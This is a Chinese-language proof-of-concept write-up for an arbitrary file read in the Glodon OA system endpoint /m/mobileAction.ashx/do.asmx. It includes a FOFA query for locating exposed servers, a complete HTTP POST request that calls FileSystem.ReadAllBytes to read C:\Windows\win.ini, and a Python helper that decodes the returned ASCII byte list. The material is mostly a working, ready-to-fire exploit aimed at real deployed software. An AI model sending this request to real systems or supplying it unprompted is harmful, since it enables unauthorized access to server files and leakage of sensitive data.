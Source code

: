 # 广联达OA系统接口do.asmx存在任意文件读取漏洞

广联达OA系统接口` /m/mobileAction.ashx/do.asmx`存在任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```javascript
body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```

## poc

```javascript
POST /m/mobileAction.ashx/do.asmx?controller=Microsoft.VisualBasic.FileIO.FileSystem%2c%20Microsoft.VisualBasic%2c%20Version%3d8.0.0.0%2c%20Culture%3dneutral%2c%20PublicKeyToken%3db03f5f7f11d50a3a&action=ReadAllBytes HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Connection: close

["\"C:\\\\Windows\\\\win.ini\""]
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409141646757.png)

### 解密脚本

```python
def ascii_to_char(ascii_codes):  
    """将ASCII码列表转换为字符"""  
    return ''.join(chr(code) for code in ascii_codes)  
  
def char_to_ascii(char):  
    """将字符串转换为ASCII码列表"""  
    return [ord(c) for c in char]  
  
def main():  
    print("0 字符转ASCII码")  
    print("1 ASCII码转字符")  
    choice = input("请选择转换类型（0/1）: ")  
  
    if choice == '0':  
        # 字符转ASCII码  
        chars = input("请输入要转换的字符: ")  
        ascii_codes = char_to_ascii(chars)  
        print("字符转ASCII码:", ascii_codes)  
    elif choice == '1':  
        # ASCII码转字符  
        ascii_codes_str = input("请输入以逗号分隔的ASCII码（例如：65,66,67）: ")  
        ascii_codes = [int(code.strip()) for code in ascii_codes_str.split(',')]  
        converted_chars = ascii_to_char(ascii_codes)  
        print("ASCII码转字符:", converted_chars)  
    else:  
        print("无效的输入，请输入0或1。")  
  
if __name__ == "__main__":  
    main()
```

